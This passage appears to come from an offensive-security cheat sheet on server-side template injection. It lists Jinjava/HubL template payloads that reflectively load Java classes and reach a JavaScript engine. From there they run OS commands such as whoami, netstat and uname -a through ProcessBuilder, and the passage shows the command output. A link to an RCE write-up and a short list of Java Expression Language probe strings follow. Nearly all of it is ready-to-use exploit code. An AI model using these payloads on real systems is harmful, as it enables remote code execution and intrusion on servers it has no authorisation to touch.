 ```
{{request.isDebug()}}
//output: False

//Using string 'a' to get an instance of class sun.misc.Launcher
{{'a'.getClass().forName('sun.misc.Launcher').newInstance()}}
//output: sun.misc.Launcher@715537d4

//It is also possible to get a new object of the Jinjava class
{{'a'.getClass().forName('com.hubspot.jinjava.JinjavaConfig').newInstance()}}
//output: com.hubspot.jinjava.JinjavaConfig@78a56797

//It was also possible to call methods on the created object by combining the


{% raw %}
{% %} and {{ }} blocks
{% set ji='a'.getClass().forName('com.hubspot.jinjava.Jinjava').newInstance().newInterpreter() %}
{% endraw %}

{{ji.render('{{1*2}}')}}
//Here, I created a variable 'ji' with new instance of com.hubspot.jinjava.Jinjava class and obtained reference to the newInterpreter method. In the next block, I called the render method on 'ji' with expression {{1*2}}.

//{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
//output: xxx

//RCE
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
//output: java.lang.UNIXProcess@1e5f456e

//RCE with org.apache.commons.io.IOUtils.
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
//output: netstat execution

//Multiple arguments to the commands
Payload: {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
//Output: Linux bumpy-puma 4.9.62-hs4.el6.x86_64 #1 SMP Fri Jun 1 03:00:47 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
```
**More information**

- [[https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html|https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html]]

### Expression Language - EL (Java)

- `${"aaaa"}` - "aaaa"
- `${99999+1}` - 100000.
- `#{7*7}` - 49
- `${{7*7}}` - 49
- `${{request}}, ${{session}}, {{faceContext}}`

```